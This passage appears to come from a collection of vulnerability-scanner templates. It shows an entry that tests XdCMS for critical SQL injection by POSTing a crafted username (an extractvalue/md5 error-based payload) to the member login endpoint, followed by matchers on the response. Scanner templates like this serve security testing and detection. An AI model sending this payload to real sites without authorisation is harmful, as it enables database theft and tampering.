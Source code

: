 **Type - word**

- words
  1. {{md5({{num}})}}
- part - body

---

# XdCMS - SQL Injection

## Description

- XdCMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - sqli,xdcms

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/index.php?m=member&f=login_save
  - username=dd' or extractvalue(0x0a,concat(0x0a,md5({{num}})))#&password=dd&submit=+%B5%C7+%C2%BC+

### Matchers

**Type - word**

- words
  1. Content-Type: text/html
- part - header

**Type - word**

- words
  1. {{md5({{num}})}}
- part - body

**Type - status**

- status
  1. 200

---

# ZCMS - SQL Injection

## Description

